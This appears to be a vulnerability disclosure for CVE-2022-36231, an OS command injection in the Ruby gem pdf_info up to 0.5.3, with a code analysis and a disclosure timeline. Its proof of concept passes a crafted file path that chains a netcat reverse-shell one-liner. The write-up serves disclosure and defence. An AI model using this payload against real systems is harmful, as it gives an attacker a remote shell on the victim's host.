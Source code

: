 # CVE-2022-36231

The ruby gem [pdf_info](https://rubygems.org/gems/pdf_info) <= 0.5.3 is vulnerable to OS Command Injection when executing a method on a `PDF::Info` object.

An attacker using a specially crafted payload may execute OS commands by using command chaining.

## Vulnerability Analysis

When creating a new `PDF::Info` object the `initialize` command is called

```ruby
def initialize(pdf_path)
  @pdf_path = pdf_path
end
```

During object initalization there is no validation performed and the user provided path is used. 

We can create a PDF::Info object and return the metadta of a PDF with the following.

```ruby
#!/usr/bin/env ruby

require 'pdf/info'

info = PDF::Info.new("./pdf/sample1.pdf")
pp info.metadata
```

When we call the `metadata` method on the `PDF::Info` object a call is made to the `process_output` method with the argument passed being the `command` method.

The `command` method makes use of the `@pdf_info` class variable to execute the `pdfinfo` command on the system using the following code snippet to return the output of the command.

```ruby
output = `#{self.class.command_path} -enc UTF-8 -f 1 -l -1 "#{@pdf_path}" 2> /dev/null`
```

As with the `initialize` method there is no validation performed on the `@pdf_path` variable. This allows us to make use of command chaining with `;` to execute an arbitrary command.

```ruby
info = PDF::Info.new('pdf/sample1.pdf; $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444>/tmp/f)')

pp info.metadata
```

The above code snippet will execute a reverse shell to `127.0.0.1` on port `4444`


![Shell](https://github.com/affix/CVE-2022-36231/raw/main/img/shell.png)

## Disclosure Details

* 2022-07-20 :: Reported to Vendor
* 2022-08-30 :: Follow up with Vendor
* 2022-09-30 :: Apply for CVE
* 2022-10-26 :: Publish Vulnerability
